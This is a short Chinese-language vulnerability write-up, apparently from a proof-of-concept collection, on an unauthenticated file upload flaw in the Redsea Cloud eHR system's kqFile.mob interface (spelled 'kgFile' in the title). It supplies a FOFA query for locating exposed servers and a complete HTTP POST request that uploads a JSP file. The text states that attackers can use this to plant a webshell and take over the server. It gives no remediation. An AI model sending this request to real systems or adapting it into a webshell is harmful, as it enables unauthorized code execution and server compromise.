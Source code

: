 # 红海云eHR系统kgFile.mob存在任意文件上传漏洞

红海云EHR系统kqFile.mob接口处存在未授权文件上传漏洞，攻击者可上传webshell来命令执行，获取服务器权限。

## fofa

```yaml
body="/RedseaPlatform/skins/images/favicon.ico"
```

## poc

```yaml
POST /RedseaPlatform/kqFile.mob?method=uploadFile&fileName=fbjgrohu.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeaaGwoqCxccjHcca
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Length: 183

------WebKitFormBoundaryeaaGwoqCxccjHcca
Content-Disposition: form-data; name="fj_file"; filename="fbjgrohu.jpg"

<% out.println(111*111); %>
------WebKitFormBoundaryeaaGwoqCxccjHcca--
```

